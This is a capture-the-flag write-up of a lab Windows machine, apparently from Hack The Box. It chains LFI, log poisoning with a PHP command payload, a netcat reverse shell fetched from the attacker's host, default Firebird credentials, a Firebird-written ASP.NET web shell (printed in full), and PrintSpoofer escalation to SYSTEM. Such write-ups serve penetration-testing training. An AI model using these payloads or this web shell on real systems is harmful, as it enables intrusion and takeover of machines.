

## Fire

### User flag

```bash
$ nmap -sS -sV -Pn -p- -T5 -n 10.129.95.158

Nmap scan report for 10.129.95.158
Host is up (0.021s latency).
Not shown: 65521 closed ports
PORT      STATE SERVICE       VERSION
80/tcp    open  http          Microsoft IIS httpd 10.0
135/tcp   open  msrpc         Microsoft Windows RPC
139/tcp   open  netbios-ssn   Microsoft Windows netbios-ssn
445/tcp   open  microsoft-ds?
5985/tcp  open  http          Microsoft HTTPAPI httpd 2.0 (SSDP/UPnP)
8080/tcp  open  http          Apache httpd 2.4.48 ((Win64) PHP/8.0.7)
47001/tcp open  http          Microsoft HTTPAPI httpd 2.0 (SSDP/UPnP)
49664/tcp open  msrpc         Microsoft Windows RPC
49665/tcp open  msrpc         Microsoft Windows RPC
49666/tcp open  msrpc         Microsoft Windows RPC
49667/tcp open  msrpc         Microsoft Windows RPC
49668/tcp open  msrpc         Microsoft Windows RPC
49669/tcp open  msrpc         Microsoft Windows RPC
49670/tcp open  msrpc         Microsoft Windows RPC
Service Info: OS: Windows; CPE: cpe:/o:microsoft:windows
```

For this challenge, we were given a PHP application on the port 8080 hosted on Windows:


We shortly analyzed the form of the links included on the home page and we noticed a LFI (Local File Inclusion) vulnerability:
```bash
$ curl 'http://10.129.95.158:8080/' -s | grep '.php' -C3
			</header>

		<!-- Signup Form -->
			<form id="signup-form" method="post" action="process.php?path=submit.php">
				<input type="email" name="email" id="email" placeholder="Email Address" />
				<input type="submit" value="Sign Up" />
			</form>
```

We confirmed the vulnerability by asking for the file `C:\Ẁindows\System32\drivers\etc\hosts`.

We also started fuzzing files and directories. 
```bash
$ ffuf -D -u http://10.129.95.158:8080/FUZZ -w ~/dicc.txt -t 10 -fc 403
[...]

LICENSE.txt             [Status: 200, Size: 17128, Words: 2798, Lines: 64]
README.TXT              [Status: 200, Size: 2242, Words: 282, Lines: 67]
assets                  [Status: 301, Size: 241, Words: 14, Lines: 8]
assets/                 [Status: 200, Size: 362, Words: 27, Lines: 15]
images/                 [Status: 200, Size: 216, Words: 19, Lines: 11]
images                  [Status: 301, Size: 241, Words: 14, Lines: 8]
index.html              [Status: 200, Size: 1565, Words: 97, Lines: 46]
info.php                [Status: 200, Size: 66067, Words: 3239, Lines: 705]
```

The file `info.php`, that was serving `phpinfo()` caught our attention. We first though we should exploit the race between the path of temporary uploaded files (disclosed by `phpinfo()`) and the LFI vulnerability in order to make the application include our temporary uploaded `PHP` file.

However, it turned out we could also include the Apache access logs:

```bash

$ curl 'http://10.129.95.158:8080/process.php?path=C:/Apache24/logs/access.log' -s | head

10.10.14.9 - - [06/Jul/2021:01:16:28 -0700] "GET / HTTP/1.1" 200 1565
10.10.14.9 - - [06/Jul/2021:01:30:08 -0700] "GET /process.php?path=c:\\windows\\win.ini HTTP/1.1" 200 92
10.10.14.9 - - [06/Jul/2021:01:36:41 -0700] "GET /process.php?path=c:\\windows\\win.ini HTTP/1.1" 200 92
10.10.14.9 - - [06/Jul/2021:01:36:57 -0700] "GET /process.php?path=\\\\10.10.14.9\\aSD HTTP/1.1" 200 -
10.10.14.9 - - [06/Jul/2021:01:59:14 -0700] "GET /process.php?path=\\\\10.10.14.9\\aSD HTTP/1.1" 200 -
10.10.14.9 - - [06/Jul/2021:03:11:25 -0700] "GET /process.php?path=\\\\10.10.14.9\\aSD HTTP/1.1" 200 -
10.10.14.9 - - [06/Jul/2021:03:12:43 -0700] "GET / HTTP/1.1" 200 1565
10.10.14.9 - - [06/Jul/2021:03:54:16 -0700] "GET /process.php?path=\\\\10.10.14.9\\f\\cmd.php HTTP/1.1" 200 -
10.10.14.9 - - [06/Jul/2021:03:58:06 -0700] "GET / HTTP/1.1" 200 1565
10.10.14.9 - - [06/Jul/2021:03:58:07 -0700] "GET /assets/css/main.css HTTP/1.1" 200 22801
```

In that case, we decided to poison the access logs and make the application include it to execute arbitrary PHP code. 

As only the requested path was reflected on the access logs, we poisonned the logs by using PHP shorter tags with a spaceless payload:


```bash
GET /?path=<?=die(shell_exec($_GET['cmd']));?> HTTP/1.1
Host: 10.129.164.169:8080
```

We could then execute arbitrary commands by making the application include the poisoned logs:

```bash
$ curl 'http://10.129.95.158:8080/process.php?path=C:/Apache24/logs/access.log&cmd=whoami' -s | tail -n1

10.10.14.65 - - [26/Jul/2021:15:42:40 -0700] "GET /process.php?path=fire\dev
```

From there, we retrieved the user flag:

```bash
GET /process.php?path=C:/Apache24/logs/access.log&cmd=type+C:\Users\dev\Desktop\user.txt HTTP/1.1
Host: 10.129.164.169:8080

HTTP/1.1 200 OK
Date: Sat, 24 Jul 2021 14:08:58 GMT
Server: Apache/2.4.48 (Win64) PHP/8.0.7
X-Powered-By: PHP/8.0.7
Content-Length: 6217
Connection: close
Content-Type: text/html; charset=UTF-8
[...]
10.10.14.65 - - [24/Jul/2021:07:03:50 -0700] "GET /process.php?path=HTB{DoN7_S7e4L_My_N7lm}
```

### Root flag

Before searching for the next steps, we launched a reverse shell by downloading and executing a pre-built netcat:

```
$ python3 -m http.server 8080 --bind 10.10.14.65
Serving HTTP on 10.10.14.65 port 8080 (http://10.10.14.65:8080/) ...
10.129.95.158 - - [27/Jul/2021 00:47:57] "GET /nc.exe HTTP/1.1" 200 -


GET /process.php?path=C:/Apache24/logs/access.log&cmd=<@urlencode>powershell curl http://10.10.14.65:8080/nc.exe -o nc.exe<@/urlencode> HTTP/1.1
Host: 10.129.164.169:8080
     
GET /process.php?path=C:/Apache24/logs/access.log&cmd=<@urlencode>nc.exe 10.10.14.65 9999 -e powershell.exe<@/urlencode> HTTP/1.1
Host: 10.129.164.169:8080


$ nc -nlvp 9999
listening on [any] 9999 ...
connect to [10.10.14.65] from (UNKNOWN) [10.129.95.158] 49676
Windows PowerShell 
Copyright (C) Microsoft Corporation. All rights reserved.

PS C:\Apache24\htdocs> 
```

The current user did not have useful privileges, so we decided to search for running services and we noticed the `Firebird` service:

```bash
PS C:\Program Files> dir
dir

    Directory: C:\Program Files

Mode                LastWriteTime         Length Name                                                             
----                -------------         ------ ----                                                             
d-----         7/5/2021   7:18 AM                Apache Software Foundation                                       
d-----         7/5/2021   6:59 AM                Common Files                                                     
d-----         7/5/2021   4:35 AM                Firebird   

PS C:\Program Files\Firebird> netstat -aon
netstat -aon

Active Connections

  Proto  Local Address          Foreign Address        State           PID
  TCP    0.0.0.0:80             0.0.0.0:0              LISTENING       4
  TCP    0.0.0.0:135            0.0.0.0:0              LISTENING       888
[...]
  TCP    10.129.95.158:139      0.0.0.0:0              LISTENING       4
  TCP    10.129.95.158:8080     10.10.14.65:59178      CLOSE_WAIT      2076
  TCP    10.129.95.158:49676    10.10.14.65:9999       ESTABLISHED     4692
  TCP    [::]:80                [::]:0                 LISTENING       4
  TCP    [::]:135               [::]:0                 LISTENING       888
  TCP    [::]:445               [::]:0                 LISTENING       4
  TCP    [::]:3050              [::]:0                 LISTENING       2360
```

This service was only listening on the IPv6 address and on the TCP port 3050. 

After reading the interesting blogpost [Firebird Database Exploitation](https://www.infosecmatter.com/firebird-database-exploitation/), we decided to exploit the firebird feature that allows creating files under the IIS web applications directory, which was `C:\inetpub\wwwroot\`. 

In fact, as IIS was listening on the TCP port 80, and we knew if we could execute arbitrary code under the IIS service account, we could use its `SeImpersonate` privilege in order to escalate our privileges and gain local Administrator privileges.

In order to perform network pivoting and to exploit the service only listening on IPv6, we created a reverse SOCKS:

```bash
$ GET /process.php?path=C:/Apache24/logs/access.log&cmd=<@urlencode>powershell curl http://10.10.14.65:8080/revsocks.exe -o revsocks.exe<@/urlencode> HTTP/1.1
Host: 10.129.164.169:8080

$ ./revsocks -lister 10.10.14.65:9090 -pass 24098219308429084219084

$ GET /process.php?path=C:/Apache24/logs/access.log&cmd=<@urlencode>revsocks.exe -connect 10.10.14.65:9090 -pass [...]<@/urlencode> HTTP/1.1
Host: 10.129.164.169:8080
```

From there, we installed the `firebird` SQL shell and we noticed the default credentials were working:

```bash
$ revsocks -listen 0.0.0.0:9090 -pass [...]

$ apt install firebird3.0-utils

$ cat proxychains.conf
[...]
socks5 	127.0.0.1 1080

$ proxychains isql-fb

SQL> CONNECT [::1]/3050:a user 'SYSDBA' password 'masterkey';
[proxychains] Strict chain  ...  127.0.0.1:1080  ...  ::1:3050  ...  OK
[proxychains] Strict chain  ...  127.0.0.1:1080  ...  ::1:3050  ...  OK
Statement failed, SQLSTATE = 08001
I/O error during "CreateFile (open)" operation for file "a"
-Error while trying to open file
-The system cannot find the file specified. 
SQL> 
```

We then used the database differential backup mode of `Firebird`, as stated in the blogpost, in order to make the service create a file on the IIS working directory that contained an [ASP.net web shell](https://github.com/tennc/webshell/blob/master/fuzzdb-webshell/asp/cmdasp.aspx):

```bash
$ proxychains isql-fb

> CONNECT '[::1]/3050:C:\non-existent-file33' user 'SYSDBA' password 'masterkey';
[proxychains] Strict chain  ...  127.0.0.1:1080  ...  ::1:3050  ...  OK
[proxychains] Strict chain  ...  127.0.0.1:1080  ...  ::1:3050  ...  OK
ALTER DATABASE END BACKUP;
ALTER DATABASE DROP DIFFERENCE FILE;
DROP DATABASE;

CREATE DATABASE '[::1]/3050:C:\non-existent-file33' user 'SYSDBA' password 'masterkey';
[proxychains] Strict chain  ...  127.0.0.1:1080  ...  ::1:3050  ...  OK
[proxychains] Strict chain  ...  127.0.0.1:1080  ...  ::1:3050  ...  OK
CREATE TABLE a( x blob);
ALTER DATABASE ADD DIFFERENCE FILE 'C:\inetpub\wwwroot\foo242424.aspx';
ALTER DATABASE BEGIN BACKUP;
INSERT INTO a VALUES ('

<%@ Page Language="C#" Debug="true" Trace="false" %>
<%@ Import Namespace="System.Diagnostics" %>
<%@ Import Namespace="System.IO" %>
<script Language="c#" runat="server">
void Page_Load(object sender, EventArgs e)
{
}
string ExcuteCmd(string arg)
{
	ProcessStartInfo psi = new ProcessStartInfo();
	psi.FileName = "cmd.exe";
	psi.Arguments = "/c "+arg;
	psi.RedirectStandardOutput = true;
	psi.UseShellExecute = false;
	Process p = Process.Start(psi);
	StreamReader stmrdr = p.StandardOutput;
	string s = stmrdr.ReadToEnd();
	stmrdr.Close();
	return s;
}
void cmdExe_Click(object sender, System.EventArgs e)
{
	Response.Write("<pre>");
	Response.Write(Server.HtmlEncode(ExcuteCmd(txtArg.Text)));
	Response.Write("</pre>");
}
</script>
<HTML>
<HEAD>
<title>awen asp.net webshell</title>
</HEAD>
<body >
<form id="cmd" method="post" runat="server">
<asp:TextBox id="txtArg" style="Z-INDEX: 101; LEFT: 405px; POSITION: absolute; TOP: 20px" runat="server" Width="250px"></asp:TextBox>
<asp:Button id="testing" style="Z-INDEX: 102; LEFT: 675px; POSITION: absolute; TOP: 18px" runat="server" Text="excute" OnClick="cmdExe_Click"></asp:Button>
<asp:Label id="lblText" style="Z-INDEX: 103; LEFT: 310px; POSITION: absolute; TOP: 22px" runat="server">Command:</asp:Label>
</form>
</body>
</HTML>

');
COMMIT;
EXIT;
```

Once the backup was created, the web shell was created and we were able to execute arbitrary commands as the IIS user:



We then created a reverse shell using the same netcat pre-built binary: 

```bash
$ nc -nlvp 8888
listening on [any] 8888 ...
connect to [10.10.14.65] from (UNKNOWN) [10.129.95.158] 49683
Microsoft Windows [Version 10.0.17763.1999]
(c) 2018 Microsoft Corporation. All rights reserved.
c:\windows\system32\inetsrv> 
```

Finally, we decided to use the [Print Spoofer technique](https://github.com/itm4n/PrintSpoofer) in order to obtain and reuse a system user token to escalate our privileges by using `SeImpersonate`:

```bash
c:\windows\system32\inetsrv> cd C:\Windows\Temp

c:\windows\system32\inetsrv> powershell curl http://10.10.14.65:8080/printspoof.exe -o pspoof.exe
                             
C:\Windows\Temp>pspoof.exe -i -c powershell.exe
pspoof.exe -i -c powershell.exe
[+] Found privilege: SeImpersonatePrivilege
[+] Named pipe listening...
[+] CreateProcessAsUser() OK
Windows PowerShell 
Copyright (C) Microsoft Corporation. All rights reserved.

PS C:\Windows\system32> whoami
whoami
nt authority\system
PS C:\Windows\system32> type C:/Users/Administrator/Desktop/root.txt
type C:/Users/Administrator/Desktop/root.txt
HTB{Ph0EN1X_R1SEN_Fr0M_7he_4sHeS}
 ```
